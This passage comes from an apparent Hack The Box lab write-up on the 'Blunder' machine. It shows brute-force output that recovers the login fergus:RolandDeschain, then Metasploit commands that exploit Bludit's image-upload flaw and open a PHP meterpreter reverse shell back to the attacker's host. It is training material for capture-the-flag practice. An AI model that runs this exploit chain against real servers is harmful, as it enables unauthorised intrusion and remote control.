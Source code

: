 Now we can run the exploit and find out the password:

```bash
finlay@kali:~/htb/blunder$ python brute.py 
[*] Trying: the
[*] Trying: Load
[*] Trying: Plugins
[*] Trying: and
...
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

Now that we know the password, we can use the metasploit module to get a shell.

## Getting a Shell

First, open metasploit and set the exploit.

```bash
finlay@kali:~/htb/blunder$ msfconsole
...
msf5 > use bludit
```

Now we can set the username, password, and the IP address.

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
```

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
```

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
```

Finally, we need to set the payload and the local host.

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
```

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST 10.10.14.248
LHOST => 10.10.14.248
```

And then we can run the exploit and get a meterpreter shell.

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.248:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading nQadKsjjpX.png...
[*] Uploading .htaccess...
[*] Executing nQadKsjjpX.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.248:4444 -> 10.10.10.191:35748) at 2020-10-13 16:48:59 -0400
[+] Deleted .htaccess

meterpreter >
```